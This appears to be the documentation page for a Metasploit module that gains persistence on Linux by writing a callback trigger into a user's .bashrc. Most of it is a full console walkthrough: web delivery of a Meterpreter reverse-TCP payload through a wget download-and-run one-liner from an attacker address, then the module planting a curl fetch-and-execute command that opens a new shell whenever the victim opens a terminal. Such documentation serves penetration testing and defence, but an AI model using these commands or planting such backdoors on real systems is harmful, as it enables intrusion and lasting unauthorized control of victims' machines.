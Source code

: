 ## Vulnerable Application

This module writes an execution trigger to the target's Bash profile.
The execution trigger executes a call back payload whenever the target
user opens a Bash terminal.

Verified on Ubuntu 22.04 and 18.04 desktop with Gnome

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/local/bash_profile_persistence`
4. `set SESSION [SESSION]`
5. `run`
6. On victim, open a new Bash terminal
7. You should get a new session with the permissions of the exploited user account

## Options

### BASH_PROFILE

The path to the target Bash profile. Defaults to `.bashrc`

### BACKDOOR_NAME

Name of the payload file. Defaults to random

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 

[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO O2XZweCh --no-check-certificate http://111.111.1.111:8181/l; chmod +x O2XZweCh; ./O2XZweCh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:44878) at 2025-02-06 21:11:39 -0500
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/bash_profile 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > exploit
[*] Command to run on remote host: curl -so ./QfTygMjF http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./QfTygMjF;./QfTygMjF&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/bash_profile) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bash profile exists: /home/ubuntu/.bashrc
[+] Bash profile is writable: /home/ubuntu/.bashrc
[!] The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] Created backup Bash profile: /root/.msf4/loot/20250206211215_default_222.222.2.222_desktop..bashrc_080965.txt
[*] Writing '/tmp/BfkldKp4' (100 bytes) ...
[*] Created Bash profile persistence
[+] Payload will be triggered when target opens a Bash terminal
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.1216/ubuntu18desktop.local_20250206.1216.rc
```
On the remote host open `/bin/bash`

```
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:40990) at 2025-02-06 21:12:21 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/bash_profile) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

